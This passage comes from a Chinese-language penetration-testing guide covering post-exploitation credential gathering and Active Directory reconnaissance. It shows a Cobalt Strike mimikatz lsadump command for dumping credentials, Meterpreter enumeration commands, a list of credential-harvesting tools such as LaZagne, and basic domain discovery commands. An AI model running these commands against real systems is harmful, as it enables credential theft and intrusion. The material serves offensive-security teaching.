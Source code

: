 查看所有用户详细信息。

```plaintext
beacon> mimikatz lsadump::lsa /inject
```

#### 1.1.6 自动化信息收集工具

市面上有一堆自动化工具：

1.  MSF Meterpreter 综合信息收集
    
    ```plaintext
     run scraper
     run winenum
    ```
    
2.  [Seatbelt](https://github.com/GhostPack/Seatbelt) DotNet 程序收集
    
3.  [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
    
4.  [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
5.  [SharpUp](https://github.com/GhostPack/SharpUp)
    
6.  [WES-NG](https://github.com/bitsadmin/wesng)
    
7.  [searchall](https://github.com/Naturehi666/searchall)
    
8.  [PrivescCheck](https://github.com/itm4n/PrivescCheck)
    
9.  [LaZagne](https://github.com/AlessandroZ/LaZagne)，专注系统、浏览器及各种软件凭证获取。
    

在使用这些工具的同时，也要了解他们会收集哪些项，因此上面都是手动收集的示例。

### 1.2 Active Directory 侦察

侦察域之前应该先确定当前计算机有没加入域，简称定位域。

```plaintext
C:\Users\wuhui>systeminfo | findstr "域:"
域:               raingray.com
```

查看当前登录域

```plaintext
C:\Users\wuhui>net config workstation
计算机名                     \\DESKTOP-5T90749
计算机全名                   DESKTOP-5T90749.raingray.com
用户名                       wuhui

工作站正运行于
        NetBT_Tcpip_{01996863-CF14-43D9-AF29-C17885FC0239} (000C29E0E816)

软件版本                     Windows 10 Pro

工作站域                     RAINGRAY0
工作站域 DNS 名称            raingray.com
登录域                       DESKTOP-5T90749

COM 打开超时 (秒)            0
COM 发送计数 (字节)          16
COM 发送超时 (毫秒)          250
命令成功完成。
```
